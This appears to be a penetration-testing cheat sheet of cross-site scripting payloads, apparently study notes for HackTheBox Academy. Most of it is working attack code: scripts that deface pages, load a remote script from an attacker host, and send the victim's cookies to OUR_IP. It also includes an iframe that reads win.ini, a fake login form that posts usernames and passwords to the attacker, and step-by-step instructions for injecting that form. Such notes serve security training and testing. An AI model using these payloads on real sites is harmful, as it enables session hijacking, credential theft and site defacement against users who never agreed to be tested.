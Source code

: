 # XSS



| Code                                                                                                                                                                                                                                                                                                                                                                                                  | Description                         |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------- |
| `<script>alert(window.origin)</script>`                                                                                                                                                                                                                                                                                                                                                               | Basic XSS Payload                   |
| `<plaintext>`                                                                                                                                                                                                                                                                                                                                                                                         | Basic XSS Payload                   |
| `<script>print()</script>`                                                                                                                                                                                                                                                                                                                                                                            | Basic XSS Payload                   |
| `<img src="" onerror=alert(window.origin)>`                                                                                                                                                                                                                                                                                                                                                           | HTML-based XSS Payload              |
| `<script>document.body.style.background = "#141d2b"</script>`                                                                                                                                                                                                                                                                                                                                         | Change Background Color             |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`                                                                                                                                                                                                                                                                                                         | Change Background Image             |
| `<script>document.title = 'HackTheBox Academy'</script>`                                                                                                                                                                                                                                                                                                                                              | Change Website Title                |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                                                                                                                                                                                                                                                                                                                        | Overwrite website's main body       |
| `<script>document.getElementById('urlform').remove();</script>`                                                                                                                                                                                                                                                                                                                                       | Remove certain HTML element         |
| `<script src="http://OUR_IP/script.js"></script>`                                                                                                                                                                                                                                                                                                                                                     | Load remote script                  |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`                                                                                                                                                                                                                                                                                                                       | Send Cookie details to us           |
| **`<iframe src=file:///C:/windows/win.ini>`**                                                                                                                                                                                                                                                                                                                                                         | Load remote ini file via iframe tag |
| <p></p><pre class="language-javascript"><code class="lang-javascript">document.write('&#x3C;h3>Please login to continue&#x3C;/h3>&#x3C;form action=http://OUR_IP>&#x3C;input type="username" name="username" placeholder="Username">&#x3C;input type="password" name="password" placeholder="Password">&#x3C;input type="submit" name="submit" value="Login">&#x3C;/form>');
</code></pre><p><br></p> | Login Form Injection                |
| <p><br><code>&#x3C;html:script>prompt(document.domain);&#x3C;/html:script>&#x3C;html</code></p>                                                                                                                                                                                                                                                                                                       |                                     |

#### Serve XSS 𝙥𝙖𝙮𝙡𝙤𝙖𝙙 from a XML file

```
<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>
```

#### **How to perform basic Login Form Injection via Reflected XSS**  Step 1: Test vulnerable form for the remove function by running script in console (Dev-Tools)

```
document.getElementById('urlform').remove();
```

Step 2: Inject form into webpage with XSS payload by executing the below script into console (Dev-tools)

```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
